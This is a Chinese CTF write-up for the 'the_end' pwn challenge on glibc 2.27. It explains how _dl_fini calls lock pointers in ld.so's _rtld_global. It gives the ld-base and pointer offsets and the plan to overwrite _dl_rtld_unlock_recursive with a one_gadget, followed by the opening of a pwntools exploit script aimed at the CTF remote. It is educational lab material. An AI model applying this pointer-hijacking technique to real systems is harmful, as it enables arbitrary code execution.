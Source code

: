 有点复杂，这里简化描述一下：从 40-45 知道 GL 是 _rtld_local 或 _rtld_global 类型的结构体；两种结构体定义看上面代码前面部分。所以 GL(dl_rtld_lock_recursive) 是 _rtld_global 结构体内的 dl_rtld_lock_recursive 指针。

有点绕，先整理下 _dl_fini 调用的实际是什么：

```
_dl_fini 调用 __rtld_lock_lock_recursive
__rtld_lock_lock_recursive 宏定义为 GL(dl_rtld_lock_recursive)
GL 是一个 _rtld_global 结构体
dl_rtld_lock_recursive 是 _rtld_global 结构体的一个指针
```

**_dl_fini 实际调用 _rtld_global 结构体的 _dl_rtld_lock_recursive 指针。**

在 gdb 中查看 _rtld_global 信息：

```shell
p _rtld_global#查看结构体内容
p *_rtld_global#查看结构体地址
```

在结构体里面找到了实际的调用的函数指针：

![image-20201212010538691](https://gitee.com/mrskye/Picbed/raw/master/img/20201212010538.png)

**_rtld_global 是在 ld.so 内存段**里面的，泄露 libc 可以通过偏移计算出 ld 基地址，按照图中偏移应该为 ``offset=0x7f30c73af000-0x7f30c6df8000=0x5b7000``：

![image-20201212010329020](https://gitee.com/mrskye/Picbed/raw/master/img/20201212010329.png)

由于我这里调试时改 libc 和 ld 所以计算出来的偏移 0x5b7000 并不是远程环境（原生18.04运行）下的偏移，在 Ubuntu 18.04 下重新调试计算得出偏移为 ``0x3f1000`` ，这个偏移与 buu 上的环境一样：

![image-20201212164833238](https://gitee.com/mrskye/Picbed/raw/master/img/20201212164833.png)

计算出 \_rtld\_global 的地址通过偏移得到 \_dl\_rtld_lock_recursive 、\_dl\_rtld_unlock_recursive 地址。这个偏移我是 gdb 查看 _rtld_global 地址，不断加偏移找：

```c
_dl_rtld_lock_lock_recursive -> 0xf00
_dl_rtld_lock_unlock_recursive -> 0xf08
```

![image-20201212165906952](https://gitee.com/mrskye/Picbed/raw/master/img/20201212165907.png)

两个函数都会调用，将其指针改成 onegadget ，最后尝试 _dl_rtld_unlock_recursive 才满足 onegadget 条件。

**EXP** 如下：

```python
#remote:ubuntu18.04
from pwn import *
context(log_level='debug',arch='amd64',os='linux',
	terminal=['tmux','sp','-h'])

#p = process(["/glibc/2.27/64/lib/ld-2.27.so", "./the_end"], env={"LD_PRELOAD":"/glibc/2.27/64/lib/libc-2.27.so"})
#libc = ELF("/glibc/2.27/64/lib/libc-2.27.so")
#ld = ELF("/glibc/2.27/64/lib/ld-2.27.so")
# p = process("./the_end")
# libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
# ld = ELF("/lib/x86_64-linux-gnu/ld-2.27.so")
p = remote("node3.buuoj.cn",27518)
libc = ELF("./libc-2.27.so")
ld = ELF("/lib/x86_64-linux-gnu/ld-2.27.so")
elf = ELF("./the_end")

offset_ldbase_of_libcbase = 0x3f1000#0x5b7000
offset_dl_rtld_lock_recursive_of_rtld_global = 0xf00
offset_dl_rtld_unlock_recursive_of_rtld_global = 0xf08
```

[^1]: 用 fwrite 等这种流 I/O 函数写入写出，数据会先放在缓冲区，并没有真正输入或者输出，需要用 fflush 冲洗流中信息才完成写入写出。避免用 fflush 冲洗就用 setbuf 函数关闭缓冲（pwn 题初始化必备）